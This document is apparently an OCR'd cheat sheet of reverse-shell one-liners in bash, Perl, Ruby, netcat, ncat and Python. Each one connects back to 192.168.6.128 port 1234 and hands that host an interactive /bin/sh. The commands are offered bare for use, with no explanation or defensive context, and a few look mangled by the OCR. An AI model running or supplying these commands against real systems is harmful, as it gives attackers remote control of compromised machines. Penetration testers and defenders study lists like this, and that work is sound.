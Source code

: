 BASH REVERSE SHELL
0<&196;exec 196<>/dev/tcp/192.168.6.128/1234; sh <&196 >&196 2>&196

BASH REVERSE SHELL
exec 5<> /dev/tcp/192.168.6.128/1234; cat <&5 | while read line; do $line 2>&5>&5; done

PERL REVERSE SHELL
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.6.128:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

PERL REVERSE SHELL
perl -e 'use Socket;$i="192.168.6.128";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PERL REVERSE SHELL WINDOWS
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.6.128:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

RUBY REVERSE SHELL
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.6.128","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

RUBY REVERSE SHELL
ruby -rsocket -e'f=TCPSocket.open("192.168.6.128",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

RUBY REVERSE SHELL WINDOWS
ruby -rsocket -e 'c=TCPSocket.new("192.168.6.128","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

NETCAT REVERSE SHELL
nc -c /bin/sh 192.168.6.128 1234

NETCAT REVERSE SHELL
nc -e /bin/sh 192.168.6.128 1234

NETCAT REVERSE SHELL
/bin/sh | nc 192.168.6.128 1234

NETCAT REVERSE SHELL
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.128 1234 >/tmp/f

NETCAT REVERSE SHELL
rm -f /tmp/p; mknod /tmp/p p && nc 192.168.6.128 1234 0/tmp/p

NCAT REVERSE SHELL
ncat 192.168.6.128 1234 -e /bin/sh

PYTHON REVERSE SHELL
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.6.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PYTHON REVERSE SHELL
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.6.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
